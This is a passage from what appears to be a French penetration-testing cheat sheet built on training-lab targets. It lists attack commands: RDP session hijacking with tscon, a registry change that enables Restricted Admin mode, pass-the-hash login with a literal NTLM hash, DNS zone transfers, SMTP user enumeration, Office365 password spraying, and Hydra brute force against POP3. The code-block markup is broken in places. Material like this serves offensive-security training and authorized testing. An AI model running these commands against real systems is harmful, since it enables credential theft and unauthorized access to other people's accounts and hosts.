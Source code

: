```shell
`tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}`
```shell
### Exécuter le détournement de session RDP
```bash
`net start sessionhijack`
```shell
### Activer le "Mode Admin Restreint" sur l'hôte Windows cible
```bash
`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
```shell
### Utiliser la technique Pass-The-Hash pour se connecter à l'hôte cible sans mot de passe
```bash
`xfreerdp /v:192.168.2.141 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA`
```shell
### Attaque DNS

### Effectuer une tentative de transfert de zone AXFR contre un serveur de noms spécifique
```bash
`dig AXFR @ns1.inlanefreight.htb inlanefreight.htb`
```shell
### Force brute des sous-domaines
```bash
`subfinder -d inlanefreight.com -v`
```shell
### Recherche DNS pour le sous-domaine spécifié
```bash
`host support.inlanefreight.com`
```shell
### Attaque des Services Email

### Recherche DNS des serveurs de messagerie pour le domaine spécifié
```bash
`host -t MX microsoft.com`
```shell
### grep "MX" \
```bash
`dig mx inlanefreight.com \
```shell
### Recherche DNS de l'adresse IPv4 pour le sous-domaine spécifié
```bash
`host -t A mail1.inlanefreight.htb.`
```shell
### Connexion au serveur SMTP
```bash
`telnet 10.10.110.20 25`
```shell
### Énumération des utilisateurs SMTP en utilisant la commande RCPT contre l'hôte spécifié
```bash
`smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7`
```shell
### Vérifier l'utilisation d'Office365 pour le domaine spécifié
```bash
`python3 o365spray.py --validate --domain msplaintext.xyz`
```shell
### Énumérer les utilisateurs existants utilisant Office365 sur le domaine spécifié
```bash
`python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz`
```shell
### Pulvérisation de mot de passe contre une liste d'utilisateurs utilisant Office365 pour le domaine spécifié
```bash
`python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz`
```shell
### Force brute du service POP3
```bash
`hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3`
```shell
```